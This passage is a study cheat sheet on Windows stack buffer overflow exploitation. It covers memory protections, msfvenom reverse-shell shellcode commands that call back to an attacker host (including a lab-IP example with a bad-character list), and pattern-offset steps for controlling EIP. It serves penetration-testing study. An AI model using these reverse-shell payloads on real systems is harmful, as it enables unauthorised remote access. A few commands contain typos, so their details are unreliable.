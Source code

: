 ```yaml
---
Topics: Windows, BOF, MSFVenom
---
```

## Windows Buffer Overflows
> Tips & Tricks for exploiting a stack based buffer overflow on targets running Windows

#### Buffer Overflow Protection Mechanisms on Windows
- DEP -> Data Execution Protection
	- hardware/software that perform extra memory access checks to make sure code is not execution from data pages
- ASLR -> Address Space Layout Randomization
	- randomizes the base address of a program and it's DLL's every time it is loaded so that exploitation of a statis memory address is not feasible
	- This is not implemented on WinXP
- CFG -> Control-Flow Guard 
	- prevents code from branching and overwriting memory address pointers

### MSFVenom Shellcode Payloads
> ***Note***: A typical reverse shellcode takes about 300-400 bytes of memory to write to 
- standard shellcode payload -> rev shell: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 -f -c```
- Shikata Ga Nai encoded payload to prevent bad characters from stopping overwrite: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\list\of\bad\chars\hex"```
		- Example: 
			- ```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 EXITFUNC=thread LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"```

### Unique Pattern Generation for EIP Control
- faster and more reliable method than Binary Search Tree's, since only a single interation needs to  sent to the application
	- exact location of crash-causing buffer can be pinpointed this way
	- ```msf-create_pattern -l {bufferSize}``` can be used to generate a non-repeating unique string the same length as the crash-causing buffer
	- ```msf-pattern_offset-l {bufferSize} -q {valueInEIP}``` will determine the offset of the bytes that ended up in EIP for us just by entering the value that into the program
		- this value is going to be in hexademical but it is the representation of the actual string value at that location
	- from that point you would fill the buffer with random data up until the offset and then see if you can drop identifiable data into EIP
		- i.e. if the crash-casuing buffer size is 800 and the identified offset is 780, you would send 780 random chars and then try and drop 4 identifiable characters and fill the rest with garbage again. From there you would try to see if the hex representation of the identifiable string is present in EIP at the time of the crash

### Identifying Address Space for EIP redirection
- check the stack at crash time and see what ESP is pointing to and if that buffer has enough space to host reverse shellcode
	- if no, then increase the size of the crash causing buffer (relative to the space you need) and see if by increasing the size it changes the BOF condition or the nature of the BOF
	- 